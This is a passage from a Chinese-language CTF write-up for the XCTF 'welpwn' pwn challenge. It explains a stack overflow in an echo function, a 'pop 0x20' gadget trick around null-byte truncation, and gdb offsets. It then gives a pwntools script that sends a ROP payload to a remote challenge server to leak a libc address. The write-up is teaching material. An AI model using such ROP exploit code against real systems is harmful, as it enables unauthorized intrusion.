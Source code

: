 每次攻击都会测试32位与64位。exp写的太烂，出flag也不会停下。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/warmup/%E6%88%AA%E5%B1%8F2020-07-14%20%E4%B8%8B%E5%8D%889.22.26.png)

flag夹杂在中间。期间还返回过奇怪的“-Warm up-”字符串，由于没有程序不知为何。

# welpwn

*\*这是一道很棒的pwn题，就如它的名字一样。*

看一下保护机制

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.49.21.png)

64位的程序。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.50.37.png)

读取了0x400字节到buf，没有溢出。继续看echo函数。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.50.45.png)

可以看到刚才我们输入到字符串被拷贝进了s2，拷贝结束后最后一位改成0。但是s2仅仅只有16字节长而已，显然存在溢出。当时误以为这是一个类似【stack2】的题，简单构造了一个rop链最后多加一个用于归零的字符。并不可以。后来发现原来在拷贝时遇到\x00时就会停止，可是我们两个地址之间必有\x00。也就是说我们最多只能执行ret到一个地址。怎么利用呢？

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.51.33.png)

在这里下个断点，gdb看一下。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.57.51.png)

可以看到我们输入的字符串在fc0，经过拷贝到了fa0，两者间的距离是0x20。

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.51.10.png)

知道了buf是紧邻返回地址的，我们就可以构造一个巧妙的rop链。大概的思路是：我们写好padding溢出后加上一个可以pop 0x20个字节的gadget（下面称为pop20）后面跟上正常的rop链。这样为什么可行呢？拷贝结束后s2只有从padding到pop20的payload，而buf是完整的。程序溢出后返回地址被覆盖成pop20，执行后紧邻的buf会被pop 0x20个字节，也就是从padding到pop20都被pop了，所以紧接着的后半段payload就可以正常执行了。

不得不说pwn真是太益智了。

这个pop20可以通过Ropgadget来找

![](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/welpwn/%E6%88%AA%E5%B1%8F2020-07-16%20%E4%B8%8B%E5%8D%8812.59.42.png)

第一个就正好。4*8=32（0x20）。就算没有找到也没关系，可以多个pop连在一起实现。

exp：

```python
from pwn import*
from LibcSearcher import*
res=remote("220.249.52.133",59879)
context.log_level='debug'
elf=ELF('./pwn')
start=elf.symbols['_start']
write_plt=elf.plt['write']
write_got=elf.got['write']
clean_padding=0x40089c#pop 0x20byte
pop_rdi=0x4008A3
pop_rsi_r15=0x4008a1
payload='a'*0x10+'b'*0x8+p64(clean_padding)+p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(start)
res.recvuntil('RCTF\n')
res.sendline(payload)
write_got=res.recv(8)
write_got=u64(write_got)
print(hex(write_got))
```